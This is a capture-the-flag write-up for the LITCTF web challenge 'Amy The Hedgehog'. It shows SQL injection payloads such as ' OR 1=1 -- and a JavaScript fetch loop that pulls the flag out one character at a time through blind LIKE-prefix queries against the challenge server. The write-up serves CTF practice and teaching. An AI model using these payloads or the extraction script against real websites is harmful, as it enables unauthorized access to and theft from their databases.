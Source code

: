 # web/Amy The Hedgehog

## Challenge

Hi guys! I just learned sqlite3 build my own websiteeee. Come visit my [my website](http://litctf.live:31770/) pleaseeee i am ami the dhedghog!!! :3 ( ◡‿◡ *)

## Solution

We have to guess Amy's crush (a synonym of "the flag"). Guessing `' OR 1=1 --` returns "(≧U≦❁) You got it!!!", so it is vulnerable.

Classic. We're given a yes/no response to a query.
To avoid brute force, we can figure out the flag character-by-character using `LIKE 'prefix%'` (trying `LITCTF{a%`, ..., `LITCTF{z%` to see `LITCTF{s%` matches, then `LITCTF{sa%`, ..., `LITCTF{sz%`, etc.).

We automate! We can open the Network panel in DevTools (inspector), submit a query with `' OR name LIKE 'sanic%' --`, and "copy as fetch" the request:
```js
await fetch("http://litctf.live:31770/", {
    "headers": {
        "Content-Type": "application/x-www-form-urlencoded",
    },
    "body": "name=%27+OR+name+LIKE+%27LITCTF%7Bsanic%25%27+--",
    "method": "POST",
});
```
(This request has been stripped down to the essentials.)

Then, we just do some templating and map each possible character to a request:
```js
await (async () => {
    const chars = [..."}abcdefghijklmnopqrstuvwxyz"];
    let flag = "LITCTF{";
    while (true) {
        const res = await Promise.all(chars.map(async c=>
            (
                await (
                    await fetch("http://litctf.live:31770/", {
                        "headers": {
                            "Content-Type": "application/x-www-form-urlencoded",
                        },
                        "body": `name=%27+OR+name+LIKE+%27${flag}${c}%25%27+--`,
                        "method": "POST",
                    })
                ).text()
            ).includes("You got it!!!")
        )); // whether each character worked
        const next = chars.filter((_,i) => res[i]); // correct character(s) (hopefully singular)
        console.log(next);
        if (next.length != 1) throw new Error("bruh");
        flag += next[0];
        if (next[0] == "}") break;
    }
    return flag;
})();
// LITCTF{sldjf}
```
(This is run in the console on the same page, to avoid CORS issues.)

Note `LIKE` queries are case-insensitive, but it happens that the flag's content is all lowercase, as guessing this flag directly confirms it works.

## Flag

`LITCTF{sldjf}`

